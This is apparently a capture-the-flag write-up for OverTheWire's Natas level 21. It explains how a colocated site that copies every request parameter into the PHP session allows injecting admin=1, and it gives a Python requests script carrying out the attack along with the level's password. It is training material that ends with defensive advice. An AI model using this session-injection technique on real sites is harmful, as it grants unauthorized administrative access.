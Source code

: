 ```yaml
---
category: natas
title: Natas21 - Session Management Part 4
---
```


website: http://natas21.natas.labs.overthewire.org/ (password: IFekPyrQXftziDEsUr3x21sYuahypdgJ)

This challenge is similar to the one in Level 20 except that there is no way to manipulate `$SESSION` via the website itself. However, the webpage says "this website is colocated with http://natas21-experimenter.natas.labs.overthewire.org", which is a hint that the two websites may share the same session. If that's the case, then let's check if the other website is vulnerable to any attack.

Here is the code snippet of the second website:

```php
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
        $_SESSION[$key] = $val;
    }
}
```

As shown above, this website will take any key/value pairs from the request and save them into session variables without any input validation. As such, we can first send a request to the co-located website. In the request, we inject `$_SESSION[admin]=1` to acquire a cookie from that website. We then use that cookie to access the main website to retrieve the password. The following attack turns out to be a success:

```python
#!/usr/bin/env python3
 
from time import sleep
import requests
from requests.auth import HTTPBasicAuth
 
s = requests.Session()
s.auth = HTTPBasicAuth("natas21", "IFekPyrQXftziDEsUr3x21sYuahypdgJ")
url1 = 'http://natas21.natas.labs.overthewire.org/'
url2 = 'http://natas21-experimenter.natas.labs.overthewire.org/index.php?debug'
 
resp = s.post(url2, data={
              "align": "center", "fontsize": "100%", "bgcolor": "yellow", "submit": "update", "admin": "1"})
print(resp.text)
 
sleep(1)
# reuse the previous cookie
resp = s.get(url1, cookies=s.cookies.get_dict())
print(resp.text)
```

<strong>CONCLUSION</strong>

This challenge is also an example of insecure session management. To overcome such an issue, one should take some steps to manage sessions securely:
- Input validation. Only valid input (e.g., a whitelist) can be accepted.
- Session validation. For a website that shares a session with other websites, session validations are needed.

